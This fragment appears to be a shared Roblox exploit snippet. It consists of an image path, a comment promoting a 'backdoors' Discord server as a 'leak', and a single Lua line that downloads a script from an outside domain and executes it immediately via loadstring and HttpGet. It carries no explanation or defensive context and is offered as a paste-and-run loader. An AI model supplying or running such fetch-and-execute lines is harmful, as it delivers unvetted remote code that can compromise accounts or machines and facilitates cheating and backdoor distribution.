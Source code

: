 -- leak, join discord.gg/backdoors
loadstring(game:HttpGet("https://you.whimper.xyz/sources/rb/fisch.lua"))()
